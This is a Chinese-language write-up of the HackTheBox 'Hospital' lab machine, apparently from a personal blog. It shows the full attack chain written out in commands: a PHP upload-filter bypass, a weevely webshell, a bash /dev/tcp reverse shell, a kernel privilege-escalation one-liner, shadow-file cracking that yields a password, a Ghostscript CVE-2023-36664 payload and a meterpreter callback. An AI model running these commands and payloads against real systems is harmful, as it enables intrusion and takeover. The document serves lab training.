 ```yaml
---
title: HTB Hospital Writeup
date: 2024-4-23
categories: LabWriteup HackTheBox
tags: VulnerabilityRecurrence PrivilegeEscalation
---
```


### Portinfo：

```bash
nmap 10.10.11.241 -n -Pn -p- -sT --min-rate 2000
```

![image-20240421173314650](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421173314650.png)

```bash
nmap 10.10.11.241 -p22,53,88,135,139,443,445,389,1801,2103,2105,2107,2179,3389,6404,6406,6407,6409,6617,6639,8080,9389 -sC -sV -oN portinfo.txt -Pn
```

![image-20240421180444299](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421180444299.png)

目标域名为**hospital.htb**，Windows机器，但是有Ubuntu的SSH服务，疑似存在容器，端口映射的现象。

### GetShell：

8080端口运行一个web服务：

![image-20240421182950757](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421182950757.png)

获取目录信息：

```
dirsearch -u http://hospital.htb:8080/
```

![image-20240421193832599](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421193832599.png)

没有账号密码，但是在以下地址可以注册一个：

```
http://hospital.htb:8080/register.php
```

![image-20240421183025332](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421183025332.png)

登录成功有一个文件上传接口：

![image-20240421183148093](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421183148093.png)

目标站点是PHP类型的，尝试上传php文件：

![image-20240421184745988](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421184745988.png)

如果将其更改为pdf会上传成功：

![image-20240421184926194](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421184926194.png)

枚举可上传的php执行文件后缀：

```bash
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

![image-20240421193345218](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421193345218.png)

执行枚举：

![image-20240421193303411](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421193303411.png)

**phar**可以正常上传：

![image-20240421193852873](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421193852873.png)

phpinfo里显示了一堆函数被禁用：

![image-20240421194500241](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421194500241.png)

可以用weevely自动化bypass disable_functions，生成webshell：

```bash
weevely generate 'password123' backdoor.phar
```

上传后使用weevely进行连接并反弹shell：

```bash
weevely http://hospital.htb:8080/uploads/backdoor.phar password123
```

![image-20240421202342884](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421202342884.png)

```bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.16.28/443 0>&1"
```

收到shell：

![image-20240421202405970](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421202405970.png)

### GetDrwilliams：

升级shell：

```bash
script -qc /bin/bash /dev/null
CTRL+Z;
stty raw -echo; fg; 
reset;
screen;
```

查看内核版本：

![image-20240421202904391](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421202904391.png)

该内核版本有提权漏洞：

```
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----887fd3d6fee9--------------------------------
```

输入如下命令：

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

![image-20240421203224697](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421203224697.png)

读取passwd：

![image-20240421203527409](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421203527409.png)

读取shadow：

![image-20240421203609501](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421203609501.png)

破解shadow可以获取到drwilliams用户的密码：

![image-20240421204003410](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240421204003410.png)

```bash
drwilliams:qwe123!@#
```

### GetDrbrown：

使用密码可以访问443端口的mail服务：

![image-20240423173927648](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240423173927648.png)

GhostScript存在一个CVE-2023-36664，漏洞分析可看以下文章：

```http
https://www.kroll.com/en/insights/publications/cyber/ghostscript-cve-2023-36664-remote-code-execution-vulnerability
```

EXP可以在github上找到：

```http
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
```

使用msfvenom生成exe：

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.28 LPORT=443 -f exe -o shell.exe
```

![image-20240424102229515](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102229515.png)

制作payload：

```bash
 python CVE_2023_36664_exploit.py --inject --payload 'cmd.exe /c \\\\10.10.16.28\\share\\shell.exe' --filename file.eps
```

![image-20240424102518769](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102518769.png)

启动smbserver：

```bash
smbserver.py share . -smb2support
```

![image-20240424102543137](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102543137.png)

对邮件进行回复：

![image-20240424102823767](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102823767.png)

共享被访问：

![image-20240424102951089](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424102951089.png)

监听到Meterpreter会话：

![image-20240424103244935](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424103244935.png)

为保证不必要的麻烦，进行进程迁移：

![image-20240424103343817](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424103343817.png)

用户flag：

![image-20240424142047940](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142047940.png)

GetSystem：

获取web权限：

```
upload /usr/share/webshells/php/simple-backdoor.php
```

![image-20240424142320186](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142320186.png)

Web服务是以system权限运行的：

```bash
curl -k https://hospital.htb/simple-backdoor.php?cmd=whoami
```

![image-20240424142452737](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142452737.png)

上传木马：

```bash
upload /home/kali/Expliot/CVE-2023-36664-Ghostscript-command-injection/shell.exe
```

![image-20240424142703802](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142703802.png)

启动木马：

```bash
curl -k https://hospital.htb/simple-backdoor.php?cmd=shell.exe
```

![image-20240424142805471](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142805471.png)

收到会话回连：

![image-20240424142728347](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424142728347.png)

获取root.txt:

![image-20240424143048321](https://raw.githubusercontent.com/Annabelline/Annabelline.github.io/main/assets/img/blogimage/image-20240424143048321.png)
